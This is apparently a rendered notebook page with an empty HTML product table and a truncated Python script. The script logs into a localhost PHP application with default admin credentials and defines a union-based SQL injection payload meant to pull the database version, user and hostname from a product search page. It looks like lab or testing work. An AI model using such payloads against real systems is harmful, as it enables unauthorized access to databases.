 <table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>



    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    



```python
import requests
from bs4 import BeautifulSoup
from IPython.core.display import display, HTML

# URL of the login and search pages
login_url = 'http://localhost:8000/login.php'
search_url = 'http://localhost:8000/searchproducts.php'

# Credentials for login
username = 'admin'
password = 'admin'  # Assuming the password for bob is 'password'

# The payload to be tested
payload = "1' UNION SELECT 1, 2, version(), current_user(), @@hostname -- "

# Create a session to persist cookies
session = requests.Session()

# Data to be sent in the POST request for login
login_data = {
    'uid': username,
    'password': password
}
```